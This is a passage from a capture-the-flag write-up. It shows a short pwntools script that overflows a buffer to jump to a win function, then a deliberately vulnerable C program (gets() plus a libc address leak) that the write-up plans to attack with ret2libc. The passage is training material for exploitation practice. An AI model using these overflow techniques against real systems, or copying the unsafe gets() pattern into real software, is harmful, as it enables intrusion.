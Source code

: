 ```python
p = remote("f61841b.678470.xyz", 30717)
e = ELF("./assgn1_2o3BvZ6")


p.sendline(b"a" * 44 + p32(e.sym.win))

p.interactive()
```
{{< admonition note "flag" true >}}
`wxmctf{1_th1nk_1_f41led...}`
{{< /admonition >}}

## Nah id win
{{< admonition info "Description" false >}}
As the strongest problem in history faced off against the strongest pwner of today, they asked it: "Are you the shell because you are /bin/sh? Or are you /bin/sh because you are the shell?"

The pwner laughed. "Stand proud. You are strong." said the pwner. At this moment, the pwner used their domain expansion.

"DOMAIN EXPANSION. ret2libc."

The problem began using reverse pwn technique, but it wasn't enough. The domain was simply too strong. However, the problem had not yet used its domain expansion.

"DOMAIN EXPANSION: Return restrictions." The problem said, and the domain was instantly shattered.

"Nah, I'd win." The problem said, and the pwner was dealt with.
{{< /admonition >}}
### Analysis
If you read the description, you can see that the author is a fan of Jujutsu Kaisen. lol

`“DOMAIN EXPANSION. ret2libc.”`

This challenge give source code, binary and libc. 
```c
#include <stdio.h>
#include <stdlib.h>

int vuln() {
    char buf[0x20];
    printf("My cursed technique is revealing libc... %p\n",printf);
    gets(buf);
    if(__builtin_return_address(0) < 0x90000000) {
        return 0;
    }
    printf("NAH I'D WIN!\n");
    exit(0);
}
int main() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    vuln();
    return 0;
}
```
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
This is another vulnerable 32-bit binary. There is no `win` function, but you can see from the description that you can use the ret2libc technique. In `vuln` function, we can get libc leak. So, just do ret2libc.